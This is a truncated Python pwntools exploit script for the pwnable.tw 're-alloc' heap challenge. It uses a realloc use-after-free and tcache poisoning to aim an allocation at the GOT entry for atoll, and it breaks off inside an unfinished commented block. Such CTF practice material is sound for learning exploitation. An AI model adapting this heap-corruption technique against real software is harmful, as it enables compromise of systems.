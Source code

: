 exploit

```python=

#!/usr/bin/env python3

from pwn import *
import sys, time

context(arch='amd64',os='linux',log_level='debug')

elf = ELF("./re-alloc")
libc = ELF("./libc.so")
io = process(elf.path)
#io = remote("chall.pwnable.tw",10106)



def alloc(idx, size, data):
    io.recvuntil("Your choice: ")
    io.sendline("1")
    io.recvuntil("Index:")
    io.sendline(str(idx))
    io.recvuntil("Size:")
    io.sendline(str(size))
    io.recvuntil("Data:")
    io.send(data)

def realloc(idx, size, data):
    io.recvuntil("Your choice: ")
    io.sendline("2")
    io.recvuntil("Index:")
    io.sendline(str(idx))
    io.recvuntil("Size:")
    io.sendline(str(size))
    if size != 0:
        io.recvuntil("Data:")
        io.send(data)

def free(idx):
    io.recvuntil("Your choice: ")
    io.sendline("3")
    io.recvuntil("Index:")
    io.sendline(str(idx))

alloc(0, 0x18, "AAA")
realloc(0, 0, "")
realloc(0, 0x18, p64(elf.got["atoll"]))
alloc(1, 0x18, "BBB")

realloc(0, 0x28, "CCC")
free(0)
realloc(1, 0x28, "s"*0x10)
free(1)

'''
alloc(0, 0x38, "AAA")
realloc(0, 0, "")
realloc(0, 0x38, p64(elf.got["atoll"]))
alloc(1, 0x38, "BBB")
 
realloc(0, 0x48, "CCC")
free(0)
realloc(1, 0x48, "s"*0x10)
```